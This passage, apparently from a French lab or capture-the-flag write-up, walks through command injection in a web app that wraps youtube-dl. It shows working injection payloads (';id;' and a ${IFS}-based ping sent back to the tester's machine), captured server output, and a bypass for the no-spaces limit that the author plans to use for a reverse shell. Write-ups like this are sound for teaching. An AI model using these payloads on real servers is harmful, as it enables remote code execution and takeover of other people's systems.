 Et on obtient : 

```bash
HTTP/1.1 200 OK
Date: Thu, 06 Aug 2020 21:39:24 GMT
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 486
Connection: close
Content-Type: text/html; charset=UTF-8

{"status":127,"errors":"WARNING: Assuming --restrict-filenames since file system encoding cannot encode all characters. Set the LC_ALL environment variable to fix this.\nUsage: youtube-dl [OPTIONS] URL
 [URL...]\n\nyoutube-dl: error: You must provide at least one URL.\nType youtube-dl --help to see a list of all options.\nsh: 1: -f: not found\n","url_orginal":";id;","output":"uid=33(www-data) 
 gid=33(www-data) groups=33(www-data)\n","result_url":"\/tmp\/downloads\/5f2c788cef8f8.mp3"}
```

On aperçoit bien dans le champ **output** le résultat de notre commande.                                                                                                                            
En théorie on peut donc exécuter n'importe quelle commande et donc obtenir un shell sur la machine.

Sauf que ce n'est pas si simple parce que dans l'URL on ne peut pas spécifier **d'espace**. Par exemple avec ``ping 127.0.0.1`` uniquement ce qui se **trouve avant** l'espace sera pris en compte.    
Cela pose problème pour exécuter un reverse shell.                                                                                                             
Après quelques recherches avec les mots clés **bypass without spaces** je me suis retrouvé sur le Github de nos chers amis [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space).

J'ai alors essayé plusieurs techniques et celle utilisant ``${IFS}`` fonctionnait.

``${IFS}`` est donc un séparateur de champs utilisé dans les shells qui par défaut est égal à ``${IFS}=' \t\n'``, soit espace, tabulation, nouvelle ligne. On peut l'utiliser par défaut dans notre cas sans modifier sa valeur.

Il nous suffit de remplacer tous les espaces de notre reverse shell par ``${IFS}``. Essayons ça avec un simple **ping** vers notre machine !

On doit juste au préalable, de notre côté, lancer une capture pour intercepter le ping et voir si la commande fonctionne bien :

```bash
tcpdump -i enp0s8 icmp
```

Ensuite on lance la requête :

```bash
POST / HTTP/1.1
Host: 192.168.1.47
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 62
Origin: http://192.168.1.47
Connection: close
Referer: http://192.168.1.47/

yt_url=;`ping${IFS}192.168.1.16`
```
